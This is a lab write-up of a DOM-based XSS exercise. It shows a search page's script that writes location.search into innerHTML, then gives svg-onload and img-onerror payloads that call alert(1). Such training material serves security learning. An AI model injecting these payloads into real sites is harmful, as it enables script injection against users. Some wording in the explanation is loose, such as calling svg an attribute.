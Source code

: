 # DOM XSS in innerHTML sink using source location.search

> **************************Instructions**************************
> 
> 
> This lab contains a [DOM-based cross-site scripting](../../Cross-site%20Scripting%20(XSS)/Sub_Pages/DOM-based%20XSS.md) vulnerability in the search blog functionality. It uses an `innerHTML` assignment, which changes the HTML contents of a `div` element, using data from `location.search`.
> 
> To solve this lab, perform a [cross-site scripting](../../Cross-site%20Scripting%20(XSS)/Cross-site%20scripting%20(XSS).md) attack that calls the `alert` function
> 

Access the Home page of the Lab:

![Untitled](DOM%20XSS%20in%20innerHTML%20sink%20using%20source%20locationSearch%20images/Untitled.png)

Press `F12` or `Ctrl + U` to view the Page’s source → You will see the `<script>` that handle the input data and display the content of page:

```html
<section class=blog-header>
	<h1><span>0 search results for '</span><span id="searchMessage"></span><span>'</span></h1>
	<script>
	function doSearchQuery(query) {
		document.getElementById('searchMessage').innerHTML = query;
	}
	var query = (new URLSearchParams(window.location.search)).get('search');
	if(query) {
	doSearchQuery(query);
	}
	</script>
</section>
```

![Untitled](DOM%20XSS%20in%20innerHTML%20sink%20using%20source%20locationSearch%20images/Untitled%201.png)

Use double-quote `"` to escape the `<span>` and append the `<svg>` attribute with `onload` event:

```html
thisisDOM-bassedXSS@"<svg onload="alert(1)"></svg>
```

![Untitled](DOM%20XSS%20in%20innerHTML%20sink%20using%20source%20locationSearch%20images/Untitled%202.png)

In some cases, the `<svg>` attribute might be disabled, neither the `onload` event. Therefore, the alternative elements like `img` or `iframe` could be used:

```html
thisisDOM-bassedXSS@"<img src=1 onerror=alert(1)>
```

The value from `src` is invalid and then it will trigger the `onerror` even and call the `alert()` function.